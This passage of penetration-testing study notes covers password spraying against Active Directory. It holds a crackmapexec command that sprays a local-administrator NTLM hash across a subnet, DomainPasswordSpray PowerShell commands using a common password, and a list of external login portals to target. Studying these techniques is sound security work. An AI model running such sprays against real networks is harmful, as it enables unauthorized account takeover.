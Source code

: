 $server%@admin123

Or similar passwords for domain accounts. 

#### NTLM local admin spraying

May only get the NTLM hash from SAM database.
```shell
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

## Internal Password Spraying from Windows
[DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) Tool
```powershell
Import-Module .\DomainPasswordSpray.ps1

Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
Note:
Without the -userlist flag the tool will make its own

## External Password Spraying 
Common Applications
- Microsoft 0365
- Outlook Web Exchange
- Exchange Web Access
- Skype for Business
- Lync Server
- Microsoft Remote Desktop Services (RDS) Portals
- Citrix portals using AD authentication
- VDI implementations using AD authentication such as VMware Horizon
- VPN portals (Citrix, SonicWall, OpenVPN, Fortinet, etc. that use AD authentication)
- Custom web applications that use AD authentication
-
